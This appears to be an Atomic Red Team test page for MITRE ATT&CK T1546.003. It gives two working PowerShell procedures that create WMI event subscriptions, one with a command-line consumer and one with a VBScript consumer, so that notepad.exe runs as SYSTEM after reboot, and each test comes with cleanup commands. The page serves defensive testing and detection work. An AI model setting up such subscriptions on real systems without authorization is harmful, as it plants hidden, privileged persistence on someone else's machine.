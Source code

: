 # T1546.003 - Windows Management Instrumentation Event Subscription
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/003)
<blockquote>Adversaries may establish persistence and elevate privileges by executing malicious content triggered by a Windows Management Instrumentation (WMI) event subscription. WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Examples of events that may be subscribed to are the wall clock time, user loging, or the computer's uptime.(Citation: Mandiant M-Trends 2015)

Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system.(Citation: FireEye WMI SANS 2015)(Citation: FireEye WMI 2015) Adversaries may also compile WMI scripts into Windows Management Object (MOF) files (.mof extension) that can be used to create a malicious subscription.(Citation: Dell WMI Persistence)(Citation: Microsoft MOF May 2018)

WMI subscription execution is proxied by the WMI Provider Host process (WmiPrvSe.exe) and thus may result in elevated SYSTEM privileges.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer](#atomic-test-1---persistence-via-wmi-event-subscription---commandlineeventconsumer)

- [Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer](#atomic-test-2---persistence-via-wmi-event-subscription---activescripteventconsumer)


<br/>

## Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows


**auto_generated_guid:** 3c64f177-28e2-49eb-a799-d767b24dd1e0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mgreen27/ef726db0baac5623dc7f76bfa0fc494c

**Supported Platforms:** Windows


**auto_generated_guid:** fecd0dfd-fb55-45fa-a10b-6250272d0832






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                ScriptingEngine='VBScript';
                ScriptText='
                Set objws = CreateObject("Wscript.Shell")
                objws.Run "notepad.exe", 0, True
                '}
$Consumer=Set-WmiInstance -Namespace "root\subscription" -Class ActiveScriptEventConsumer -Arguments $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = $Filter;
Consumer = $Consumer;
}
$FilterToConsumerBinding = Set-WmiInstance -Namespace 'root/subscription' -Class '__FilterToConsumerBinding' -Arguments $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class ActiveScriptEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
